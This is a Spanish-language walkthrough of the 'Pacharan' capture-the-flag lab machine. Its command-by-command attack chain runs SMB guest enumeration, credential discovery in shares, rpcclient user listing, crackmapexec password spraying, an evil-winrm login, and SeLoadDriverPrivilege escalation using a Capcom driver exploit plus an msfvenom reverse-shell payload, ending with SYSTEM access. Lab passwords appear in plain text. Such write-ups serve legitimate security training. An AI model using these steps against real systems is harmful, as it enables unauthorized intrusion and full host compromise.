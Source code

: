 sudo arp-scan --interface=eth1 --localnet

192.168.1.148

nmap: 

![image](https://github.com/user-attachments/assets/14a62243-adf8-4284-9f40-2537cdd9b605)

--------

En el escaneo nos dio muchos puertos pero nos dio: "smb2-time:" 
podemos empezar a lanzar por SMB. 
lanzamos:

     smbmap -H 192.168.1.148 -u invitado


![image](https://github.com/user-attachments/assets/1d33d6d6-deba-47fe-b60d-43316c9e5117)

y nos importa los dos que dicen READ ONLY y volvemos a lanzar un smbmap pero utilizando los IPC:

     smbclient -U invitado //192.168.1.148/NETLOGON2

nos da un txt con: Pericodelospalotes6969

![image](https://github.com/user-attachments/assets/2bc4068f-81e0-4b9b-b8ac-51e4a17df294)

ahora tenemos un usuario y una posible contraseña, lanzamos:

     smbmap -H 192.168.1.148 -u orujo -p Pericodelospalotes6969



![image](https://github.com/user-attachments/assets/2bc577e4-de24-44e5-87d2-84c4db6844df)

ahora nos dio un "ah.txt" lo pasamos a nuestro terminal 

![image](https://github.com/user-attachments/assets/784ad59c-4333-4c12-8ff3-c7bc196762c1)

ahora vamos a enumerar los usuarios con "rpcclient" con el de Orujo

     rpcclient -U 'Orujo' 192.168.1.148 

![image](https://github.com/user-attachments/assets/974c54b7-ace5-4d28-8756-2df6318e73d7)

ahora todos esos nombres los vamos a meter a un txt. 

>Administrador
Invitado
krbtgt
DefaultAccount
Orujo
Ginebra
Whisky
Hendrick
Chivas Regal
Whisky2
JB
Chivas
beefeater
CarlosV
RedLabel
Gordons

lanzamos: 

     crackmapexec smb 192.168.1.148 -u user.txt -p ah.txt

![image](https://github.com/user-attachments/assets/e934eaaa-d8a3-48d0-9c02-ad1570ca12ad)

obtenemos: PACHARAN.THL\Whisky:MamasoyStream2er@ 

ahora que tenemos la contraseña podemos usar "rpcclient" otra vez pero con la contraseña que encontramos. 

     rpcclient -U "Whisky%MamasoyStream2er@" 192.168.1.148 -c 'enumprinters'

nos da: 

![image](https://github.com/user-attachments/assets/03369f0d-1684-4ddd-b2dd-8dec5aaab65e)

donde marque puede que sea una contraseña. 

lanzamos: 

     crackmapexec winrm 192.168.1.148 -u user.txt -p TurkisArrusPuchuchuSiu1

![image](https://github.com/user-attachments/assets/88ee92a6-b636-4295-a1ad-be9f0f3b7e50)

obtenemos: [+] PACHARAN.THL\Chivas Regal:TurkisArrusPuchuchuSiu1 (Pwn3d!)

**"Pwn3d!" se usa cuando un sistema, servidor o cuenta ha sido comprometido exitosamente. Ejemplo: si un atacante logra acceso root a un sistema, puede decir "Pwn3d!" para indicar que ha tomado el control total.**

lanzamos:

    evil-winrm -i 192.168.1.148 -u 'Chivas regal' -p TurkisArrusPuchuchuSiu1

y obtenemos 

![[the hackers labs/avanzado/pacharan/test10.png]]

ahora vamos a escalar privilegios, vamos a crear una carpeta con los exploit que necesitaremos para escalar y aquí hay una explicación sobre la escalada: https://www.tarlogic.com/es/blog/explotacion-seloaddriverprivilege/

nos vamos a la carpeta raíz y creamos un /tmp y dentro empezamos a cargar los exploit.
https://github.com/JoshMorrison99/SeLoadDriverPrivilege

     upload LoadDriver.exe

     upload Capcom.sys

     upload ExploitCapcom.exe 

pasamos esos exploit a la maquina victima, y nos creamos una reverse shell 

     msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=443 -f exe -o rev.exe

ahora pasamos la rev.exe a la maquina victima, colocamos el terminal nuestro en escucha y ejecutamos el exploit junto a la reverse shell.

     .\ExploitCapcom.exe C:\tmp\rev.exe


![[the hackers labs/avanzado/pacharan/test11.png]]

como vemos da: nt authority\system
que es el nivel mas alto de privilegios del sistema. 
